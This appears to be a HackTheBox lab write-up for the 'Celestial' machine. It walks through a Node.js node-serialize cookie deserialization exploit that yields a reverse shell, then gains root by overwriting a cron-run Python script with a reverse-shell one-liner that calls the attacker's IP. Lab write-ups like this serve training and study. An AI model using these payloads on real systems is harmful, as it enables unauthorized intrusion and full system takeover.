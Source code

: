 # Recon

As usual we start with a port scan on the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.85 -T5
```

That only reveals an open port on 3000 running the Node.js Express Framework. 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/1.png">

# Enumeration

After browsing to the website we run into a 404. But after refreshing we get different message. BurpSuite shows that on the first visit a cookie is set and after revisiting this is passed as a parameter.

Removing the following from the get request resulted in an error. This tells us that the data appears to be unserialized. We also spot a username: ```sun```.
```
Upgrade-Insecure-Requests: 1
If-None-Match: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/2.png">

The cookie appears to be base64 encoded. After decoding we get the following result:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/3.png">

Changing the ```num``` has an effect on the formula. We can mess with the parameters to generate the same kind of error we got before.

# Initial Foothold
We can use nodejsshell.py to create a encoded NodeJS reverse shell. We'll first have to create a payload, serialize it, base64 encode it and finally send it as the cookie parameter. 

[nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

First we'll run ```python nodejsshell.py [Listener IP] [Listener Port]``` to create the encoded shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/4.png">


Then we'll create an ```exploit.js``` file which we use to serialize the payload so that it matches the website's.
```
var y = { rce: function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,10>
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));

```

Running ```nodejs exploit.js``` will create our serialized payload.

I had a issue saying the node-serilize module could not be found. Running ```npm install``` solved this.

After this we finally base64 encode it so we can pass it as the cookie parameter. We make sure to have our listener ready before we send our request with BurpSuite. This will result in an error but at the same time provides us with a reverse shell as user ```sun```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/5.png">


# Privilege Escalation
First we'll stabilize the shell. We'll run ```which python``` to shows that it has python.
We then run the following commands:
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

press ctrl+z key combination 

stty raw -echo; fg
```

One thing we notice is that user ```sun``` is part of the ```sudo``` group. We also spot a file called ```script.py``` in the home directory. One directory higher we find ```output.txt``` which get's changed every 5 minutes. The content is the content from ```script.py```.

If this script is initiated by a root account we can try to alter the content of the file in order to give us a root shell.

We can use ```pspy``` to see what's exactly going on. Download it from [here](https://github.com/DominicBreuker/pspy). 

After a few minutes we see the following commands proving what we already thought:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/6.png">

Good news! Now we can use a oneliner php shell and save it as the script:
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > script.py
```

With our new listener ready on port 4446 we wait for a few minutes for the script to run. As soon as it gets executed a root shell will pop up.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/7.png">






















